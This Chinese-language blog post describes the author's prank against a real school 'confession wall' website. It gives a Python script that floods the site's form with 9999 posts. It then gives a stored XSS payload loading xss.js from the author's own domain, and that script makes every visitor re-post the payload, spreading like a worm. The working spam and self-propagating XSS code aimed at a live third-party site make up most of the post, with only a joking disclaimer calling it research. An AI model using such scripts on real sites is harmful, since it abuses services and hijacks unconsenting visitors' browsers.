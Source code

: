 ```yaml
---
layout: testpage
title: "XSS让每个人都帮我表白 (无对象技术测试)"
date: 2015-02-06 09:22
comments: true
author: MewX
published: true
categories: [life, python]
---
```


　　最近觉得学校的表白墙很好玩，而且人气也挺不错。有表白排行之类的有趣功能，经常能看到人刷屏、刷排行之类的。  

　　14号不就是情人节了嘛，最近肯定是表白人气最旺的时段了，妥妥地来凑个热闹。  

　　但是光是自己表白没啥意思啊，比如说我看到系统挺渣，我就用python写了个脚本一直刷，刷了9999次对吧。（下面这段代码把action地址给隐去了 =。=）  

<?prettify lang=python?>
    def tryPost( receiver, sender, msg):
        postData = 'save=1&book_title='+urllib.quote(receiver)+'&book_name='
                +urllib.quote(sender)+'&book_body='+urllib.quote(msg)
                +'&submit=%E5%8F%91%E5%B8%83';
        #print(postData);
        req = urllib2.Request(BaseURL,postData);
        req.add_header('Referer', BaseURL);
        urllib2.urlopen(req);
        return;

    for i in range(0,9999):
        tryPost('P^2','Anonymous','You know who.');

　　  

　　效果图如下，直接给刷了9999次。  
<center><a href="{{ site.baseurl }}imgs/201502/01-9999-loves.jpeg" target="_blank"><img src="{{ site.baseurl }}imgs/201502/01-9999-loves.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　看代码的时候应该可以看到，这表单竟然提交了一个submit元素上去，真是用(sang)心(xin)良(bing)苦(kuang)啊，为后面XSS增加了难度呢！  

　　  

　　下面来XSS。之前说了这个表白留言系统超级渣啊，没有验证码、没有XSS过滤呢。我这边可以插入任意html代码的。  

　　现在我要做到的目标就是让每个访问这个页面的人帮我向target表白！  

　　  

　　**这部分的技术难点：**  

　　1. 嵌入XSS代码；  

　　2. XSS代码长度限制在200以内；（测试发现数据库的varchar长度是200字节，html进行POST的时候会进行转义编码即“汉字”会变成“%XX%XX%XX”）  

　　3. 因为一页可能会有多遍script载入，所以在载入多遍script的时候需要保证效果只有一次，不然就直接刷屏了，太没节操了；  

　　4. POST返回值要无视掉，不然会接收到一段alert代码，影响用户体验；  

　　5. 使用jQuery在网页顶部插入表白图片，这部分用纯JS的话很麻烦，默认只能appendChild添加在末尾；  

　　6. 因为有一个元素叫submit，所以不能使用form.submit()，否则会触发object is not an method错误；

　　  

　　提交的XSS代码：  

<?prettify lang=javascript?>
    <script type="text/javascript" src="http://mewx.org/js/xss.js"></script>

　　上面这部分代码已经压缩到最短了，本来准备在前面添加一段图片的，结果直接就超长了，图片添加挪到xss.js里面了。  

　　P.S. 刚刚push上来发现自己网页被挂上那个脚本了 \_(:3」∠)\_ 好吧。最后检查时少了个问号。。  

　　  

　　XSS.JS：  

<?prettify lang=javascript?>
    // 省略 jQuery 代码

    $(document).ready(function(){

        var obj = document.getElementById("LoveX");
        if(obj) return;

        $("body:first").prepend("<img id=\"LoveX\" src=\"http://www.dwz.cn/XXXXX\" style=\"width:350px;height:350px\"/>");
        //$(".LoveX").insertAfter("header");

        // Ajax
        var params = {save:1,book_title:'此处打码',book_name:'MewX',book_body:'<script type=\"text/javascript\" src=\"http://mewx.org/js/xss.js\"></script>',submit:'发布'};
        url = 'http://xxxxxxxxx.sinaapp.com/add_express.php';
        $.post(url,params,function(data){
            // ignore data
        });
    })

　　  

　　最终效果：如图，每个访问该页面的人都会帮我提交一份表白啦！~~
<center><a href="{{ site.baseurl }}imgs/201502/02-XSS-express-love.jpeg" target="_blank"><img src="{{ site.baseurl }}imgs/201502/02-XSS-express-love.jpeg" style="max-width:100%; height:auto;"/></a></center>  

　　不知到2月14号会有多少访问量呢？哈哈，刚刚看到有人和我的脚本对刷！！！  

　　  

　　----------  

　　  

　　补：以上纯属闹剧，表白对象与我也毫无干系 \_(:з」∠)\_ 各位借此能了解一下XSS便好。以上恶意举动仅作技术研究。  
